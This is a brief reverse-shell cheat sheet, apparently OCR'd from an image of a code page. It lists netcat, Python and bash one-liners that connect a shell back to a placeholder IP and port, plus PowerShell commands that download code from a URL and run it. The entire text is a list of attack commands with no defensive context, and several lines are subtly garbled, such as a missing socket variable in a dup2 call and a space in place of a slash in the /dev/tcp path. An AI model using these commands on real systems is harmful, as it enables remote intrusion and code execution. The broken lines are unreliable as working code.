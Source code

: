 
NETCAT

- nc -e /bin/sh <IP> <PORT>
- nc -e /bin/bash <IP> <PORT>
- nc <IP> <PORT> -e/bin/bash
- ncat <IP> <PORT> -e /bin/shbash -c 
- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
  
  
PYTHON

- python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>" ,<PORT>));os.dup2(.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
- python -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>" ,<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
- Powershell -c iex(new-object net.webclient).downloadstring('URL')
- Powershell –c 'IEX(IWR URL -UseBasicParsing)'
  
BASH
  
- bash -i >& /dev/tcp/<IP> <PORT> 0>&1
- bash -c 'bash -i >& /dev/tcp/<IP> <PORT> 0>&1'
  
  
